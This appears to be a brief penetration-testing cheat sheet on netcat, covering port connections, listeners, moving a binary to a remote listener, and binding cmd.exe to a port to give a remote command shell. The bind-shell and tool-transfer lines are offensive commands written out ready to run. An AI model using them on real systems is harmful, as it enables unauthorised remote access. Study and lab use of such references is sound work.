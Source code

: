 # Netcat  

The swiss army knife of TCP and UDP network connections.  

Connect to a port as a client, '-n' is no DNS resolution and '-v' is verbose. Port is 110 (POP3).  

`nc -nv 192.168.1.2 110`  

Set up a listener on port 4444.  

`nc -lvnp 4444`  

### Transferring files with netcat.  

Set up the listener.  

`nc -lvnp 4444 > incoming.exe`  

Transferring the binary wget.exe to our above listener.  

`nc -nv 10.11.0.22 < /usr/share/windows-resources/binaries/wget.exe`  

Bind cmd.exe to netcat to access command prompt over the network.  

`nc -lvnp 4444 -e cmd.exe`  

